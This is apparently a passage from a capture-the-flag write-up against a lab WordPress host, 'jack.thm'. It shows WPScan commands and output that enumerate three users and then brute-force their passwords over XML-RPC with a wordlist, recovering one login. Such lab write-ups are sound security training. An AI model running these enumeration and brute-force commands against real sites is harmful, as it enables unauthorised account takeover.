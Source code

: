 
```bash
root@ip-10-10-221-91:~# wpscan --url jack.thm -e u
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

'

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <===================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] jack
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://jack.thm/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] danny
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] wendy
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

```
**Findings:**
- Users found: danny, wendy, and jack. Save these users in a text file to use for brute-forcing the WordPress login form.

```bash
─$ wpscan -U 'jack,wendy,danny' -P /usr/share/wordlists/fasttrack.txt --url jack.thm

[+] Performing password attack on Xmlrpc against 3 user/s
[SUCCESS] - wendy / changelater                                                                                                                            
Trying danny / starwars Time: 00:00:54 <===========================================================                     > (646 / 868) 74.42%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: wendy, Password: changelater
```
